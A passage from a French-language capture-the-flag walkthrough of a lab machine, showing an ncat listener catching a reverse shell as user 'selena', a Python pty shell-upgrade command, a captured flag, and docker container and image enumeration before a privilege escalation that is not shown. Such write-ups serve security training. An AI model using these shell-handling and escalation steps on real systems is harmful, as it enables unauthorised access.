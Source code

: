 J'obtiens mon shell sur mon `ncat` :

```console
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.219.
Ncat: Connection from 192.168.56.219:43400.
id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

Je le rattache à un pseudo terminal, pour ça j'utilise la commande suivante dans le shell :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Je fais ensuite un `Ctrl+Z` pour suspendre le processus, je tape  `stty raw -echo`  pour désactiver l'écho de mes commandes dans la console,  `fg %1` pour que le processus reprenne et enfin  `reset` dans le shell distant pour que les changements soient bien appliqués.

```console
selena@pwned:~$ cat user2.txt
711fdfc6caad532815a440f7f295c176

You are near to me. you found selena too.

Try harder to catch me
```

Rien de plus dans le dossier de l'utilisatrice, mais cette dernière fait partie du groupe `docker` :

```console
selena@pwned:~$ docker ps -a
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS                     PORTS               NAMES
c12a56960efa        privesc             "/bin/bash"         2 years ago         Exited (139) 2 years ago                       nostalgic_jepsen
83934b2936a9        privesc             "/bin/bash"         2 years ago         Exited (139) 2 years ago                       gracious_euclid
1e310adf4c37        e13ad046d435        "/bin/bash"         2 years ago         Exited (139) 2 years ago                       trusting_montalcini
c19299e7db7c        e13ad046d435        "/bin/bash"         2 years ago         Exited (139) 2 years ago                       angry_villani
c84a0a8edab1        e13ad046d435        "/bin/bash"         2 years ago         Exited (139) 2 years ago                       serene_davinci
selena@pwned:~$ docker images -a
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
privesc             latest              09ae39f0f8fc        2 years ago         88.3MB
<none>              <none>              8d96fec8d3cd        2 years ago         88.3MB
<none>              <none>              f865e2e37392        2 years ago         88.3MB
<none>              <none>              31de1ff96226        2 years ago         88.3MB
<none>              <none>              2f0005b6fa4a        2 years ago         88.3MB
<none>              <none>              23faf61cd1d9        2 years ago         88.3MB
<none>              <none>              e13ad046d435        2 years ago         88.3MB
<none>              <none>              34f386be0bda        2 years ago         88.3MB
alpine              latest              a24bb4013296        2 years ago         5.57MB
debian              wheezy              10fcec6d95c4        4 years ago         88.3MB
```
